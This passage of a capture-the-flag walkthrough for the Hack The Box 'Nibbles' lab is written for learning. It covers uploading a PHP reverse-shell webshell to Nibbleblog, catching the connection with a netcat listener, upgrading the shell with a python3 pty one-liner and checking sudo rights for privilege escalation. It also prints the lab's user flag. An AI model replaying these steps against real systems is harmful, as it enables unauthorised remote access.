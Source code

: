 ``` [http://10.10.10.75/nibbleblog/admin.php](http://10.10.10.75/nibbleblog/admin.php) ```
navigate to ```/usr/share/webshell/php/PHP-revershshell.php ``` modify the code according to our needs.

{{< img src="/images/hackthebox/nibbles/5.png" alt="image alt" width="1000px"  position="center" >}}

Call the payload we uploaded via browser

```python
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

```python
┌─[atom@atom-vmwarevirtualplatform]─[~]
└──╼ $nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.75] 50960
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 21:53:12 up  4:19,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
$ whoami
nibbler
$
```

Let’s first upgrade to a better shell. Python is not installed but python 3 is.

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

user flag 

```python
nibbler@Nibbles:/home/nibbler$ cat user.txt
cat user.txt
5e59ab4fecbdeacb7070326561f7ec02
nibbler@Nibbles:/home/nibbler$
```

## Privilege escalation

```python
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
